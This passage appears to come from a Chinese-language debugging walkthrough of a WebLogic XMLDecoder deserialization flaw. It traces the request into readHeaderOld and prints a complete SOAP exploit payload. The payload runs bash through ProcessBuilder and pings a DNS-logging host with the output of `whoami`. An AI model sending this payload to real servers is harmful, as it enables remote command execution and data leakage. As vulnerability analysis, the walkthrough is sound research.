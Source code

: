 return super.processRequest(var1); 
``` `}` 
```

将var3传递给readHeaderOld(var3)，继续跟进readHeaderOld。

var1的值:

```
com.sun.xml.ws.api.message.Packet@4419bacb Content: <?xml version='1.0' encoding='UTF-8'?><soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
<java version="1.8.0_131" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>ping `whoami`.7153b738c41fxxxxxxaadf9dbd46.tu4.org</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext></soapenv:Header><soapenv:Body/></soapenv:Envelope> 
```

![image](../img/e86f38c6cba3504ac0a9b234c99956b7.png)

WorkContextTube.class

```
protected void readHeaderOld(Header var1) {
    try {
        XMLStreamReader var2 = var1.readHeader();
        var2.nextTag();
        var2.nextTag();
        XMLStreamReaderToXMLStreamWriter var3 = new XMLStreamReaderToXMLStreamWriter();
        ByteArrayOutputStream var4 = new ByteArrayOutputStream();
        XMLStreamWriter var5 = XMLStreamWriterFactory.create(var4);
        var3.bridge(var2, var5);
        var5.close();
        WorkContextXmlInputAdapter var6 = new WorkContextXmlInputAdapter(new ByteArrayInputStream(var4.toByteArray()));
        this.receive(var6);
    } catch (XMLStreamException var7) {
        throw new WebServiceException(var7);
    } catch (IOException var8) {
        throw new WebServiceException(var8);
    }
} 
```

